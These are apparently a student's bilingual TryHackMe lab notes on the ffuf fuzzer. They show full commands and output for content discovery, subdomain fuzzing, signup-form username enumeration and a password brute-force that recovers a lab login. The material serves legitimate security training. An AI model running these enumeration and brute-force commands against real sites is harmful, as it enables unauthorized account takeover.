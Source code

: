 # ffuf

https://github.com/ffuf/ffuf

## Automated Discovery 

the process of using tools to discover content rather than doing it manually

---


### -w 
switch to specify the wordlist we are going to use
### -u 
접속 대상 
### FUZZ
-w에 지정한 리스트의 내용이 한줄한줄 FUZZ 키워드와 교체되어서 실행됨   
In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request
```
root@ip-10-10-25-144:~# ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.211.134/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.211.134/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

assets                  [Status: 301, Size: 178, Words: 6, Lines: 8]
contact                 [Status: 200, Size: 3108, Words: 747, Lines: 65]
customers               [Status: 302, Size: 0, Words: 1, Lines: 1]
development.log         [Status: 200, Size: 27, Words: 5, Lines: 1]
monthly                 [Status: 200, Size: 28, Words: 4, Lines: 1]
news                    [Status: 200, Size: 2538, Words: 518, Lines: 51]
private                 [Status: 301, Size: 178, Words: 6, Lines: 8]
robots.txt              [Status: 200, Size: 46, Words: 4, Lines: 3]
sitemap.xml             [Status: 200, Size: 1391, Words: 260, Lines: 43]
:: Progress: [4655/4655] :: Job [1/1] :: 4481 req/sec :: Duration: [0:00:01] :: Errors: 0 ::
root@ip-10-10-25-144:~# 
```

## -H 
switch adds/edits a header (in this instance, the Host header)
```
user@machine$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.75.9

```

## -fs 
지정한 사이즈의 결과를 제외할 때   
적용 전 : 사이즈 2395가 너무 많다 

```
user@machine$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.75.9 

...
x-ray                   [Status: 200, Size: 2395, Words: 503, Lines: 52]
wingate                 [Status: 200, Size: 2395, Words: 503, Lines: 52]
zulu                    [Status: 200, Size: 2395, Words: 503, Lines: 52]
x                       [Status: 200, Size: 2395, Words: 503, Lines: 52]
...
```

사이즈 2395인 데이터를 제외하고 출력된다
```
root@ip-10-10-249-198:~# ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host:FUZZ.acmeitsupport.thm" -u http://10.10.75.9 -fs 2395

(ffuf 로고 생략)
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.75.9
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.acmeitsupport.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2395
________________________________________________

delta                   [Status: 200, Size: 51, Words: 7, Lines: 1]
yellow                  [Status: 200, Size: 56, Words: 8, Lines: 1]
:: Progress: [1907/1907] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```


## 실습 
실습 회원가입 페이지에서 이미 사용중인 ID로 새로 가입을 하려고 하면 "An account with this username already exists"라는 문구가 뜨는 것을 이용 

### -X 
specifies the request method, this will be a GET request by default, but it is a POST request in our example. 

### -d 
specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword

### -mr 
text on the page we are looking for to validate we've found a valid username.
```
root@ip-10-10-242-38:~# head /usr/share/wordlists/SecLists/Usernames/Names/names.txt
aaliyah
aaren
aarika
aaron
aartjan
aarushi
abagael
```
```
root@ip-10-10-242-38:~# ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type:application/x-www-form-urlencoded" -u http://10.10.3.25/customers/signup -mr "username already exists"

(ffuf 로고 생략)
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.3.25/customers/signup
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Usernames/Names/names.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&email=x&password=x&cpassword=x
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Regexp: username already exists
________________________________________________

admin                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
robert                  [Status: 200, Size: 3720, Words: 992, Lines: 77]
simon                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
steve                   [Status: 200, Size: 3720, Words: 992, Lines: 77]
:: Progress: [10164/10164] :: Job [1/1] :: 1462 req/sec :: Duration: [0:00:07] :: Errors: 0 ::
root@ip-10-10-242-38:~# 
```
## 실습 
위에서 알아낸 이미 사용중인 ID목록과 자주쓰는 비밀번호 목록을 이용해서 아이디 비번 찾기 
```
root@ip-10-10-242-38:~# cat valid_usernames.txt 
admin
robert
simon
steve
```
```
root@ip-10-10-242-38:~# head /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt 
123456
password
12345678
```
```
root@ip-10-10-242-38:~# ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.3.25/customers/login -fc 200

(ffuf 로고 생략)
________________________________________________

 :: Method           : POST
 :: URL              : http://10.10.3.25/customers/login
 :: Wordlist         : W1: valid_usernames.txt
 :: Wordlist         : W2: /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=W1&password=W2
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 200
________________________________________________

[Status: 302, Size: 0, Words: 1, Lines: 1]
    * W1: steve
    * W2: thunder

:: Progress: [400/400] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
root@ip-10-10-242-38:~# 
```


---
---

### Course
[TryHackMe - Introduction to Web Hacking](https://tryhackme.com/module/intro-to-web-hacking)    
